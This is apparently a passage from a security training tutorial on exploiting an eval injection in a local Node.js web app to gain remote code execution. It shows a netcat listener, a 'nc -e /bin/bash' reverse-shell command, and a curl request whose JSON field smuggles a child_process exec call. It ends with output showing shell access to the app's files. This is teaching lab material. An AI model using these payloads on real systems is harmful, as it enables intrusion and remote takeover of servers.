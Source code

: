 
# Exploitation: Remote Code Execution

* * *

In this section, we will try to execute a command that would send a reverse shell to our server.

* * *

## Local Shell

First, we will listen on any port of our choosing, in this case we chose `1234`, by standing up a `netcat` or `nc` listener:

```shell
nc -lvnp 1234

```

Next, we will pick a reverse shell command to execute. There are many commands we can try. We can find a full list in the following link: [Reverse Shells - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

We can even pick a NodeJS reverse shell, and inject it into `eval`, without having to use `child_process` to execute system commands. However, it is much easier to simply use a reverse shell command. We will pick the first in the above link, which is the following reverse shell command:

```shell
nc -e /bin/bash 127.0.0.1 1234

```

We can now send it using our `curl` command, as follows:

```shell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"nc -e /bin/bash 127.0.0.1 1234\"); //"}'

```

We go back to our `netcat` listener, and see that we indeed got a connection back, and can execute any commands we want:

```shell
nc -lvnp 1234

listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 41126
ls

admin.html
denied.html
pwned
server.js
validateKey.js

```
